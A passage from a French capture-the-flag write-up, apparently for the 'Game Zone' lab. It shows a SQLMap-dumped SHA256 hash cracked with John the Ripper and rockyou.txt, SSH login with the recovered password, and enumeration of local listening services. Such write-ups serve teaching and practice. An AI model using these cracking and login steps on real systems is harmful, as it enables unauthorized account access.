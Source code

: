De plus, SQLMap sauvegarde les hashs dans un fichier :

```sh
kali@kali:~/Documents$ cat /tmp/sqlmapr2zium493015/sqlmaphashes-kxkg6j7k.txt 
agent47:ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14
```

## Cracking a password with JohnTheRipper 

Nous devons d'abord trouver le format du hash ; pour cela j'utilise `https://www.tunnelsup.com/hash-analyzer/`. En analysant le hash de l'agent47, on trouve que c'est du SHA256. On va confronter ce hash avec la wordlist `rockyou.txt` :

```sh
kali@kali:~/Documents$ sudo john /tmp/sqlmapr2zium493015/sqlmaphashes-kxkg6j7k.txt --format=Raw-SHA256 --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
videogamer124    (agent47)
1g 0:00:00:00 DONE (2020-08-18 04:13) 3.333g/s 9830Kp/s 9830Kc/s 9830KC/s vimivi..vainlove
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed
```

Le mot de passe correspondant au hash est alors `videogamer124`.

## Exposing services with reverse SSH tunnels 

Muni du couple `agent47:videogamer124`, nous pouvons nous connecter en ssh :

```sh
kali@kali:~/Documents$ ssh agent47@gamezone.thm
Last login: Fri Aug 16 17:52:04 2019 from 192.168.1.147
agent47@gamezone:~$ 
```

Utilisons `ss` pour énumérer les connexions en cours :

```sh
agent47@gamezone:~$ ss -tulnp
Netid State      Recv-Q Send-Q                                Local Address:Port                                               Peer Address:Port              
udp   UNCONN     0      0                                                 *:10000                                                         *:*                  
udp   UNCONN     0      0                                                 *:68                                                            *:*                  
tcp   LISTEN     0      80                                        127.0.0.1:3306                                                          *:*                  
tcp   LISTEN     0      128                                               *:10000                                                         *:*                  
tcp   LISTEN     0      128                                               *:22                                                            *:*                  
tcp   LISTEN     0      128                                              :::80                                                           :::*                  
tcp   LISTEN     0      128                                              :::22                                                           :::*
```
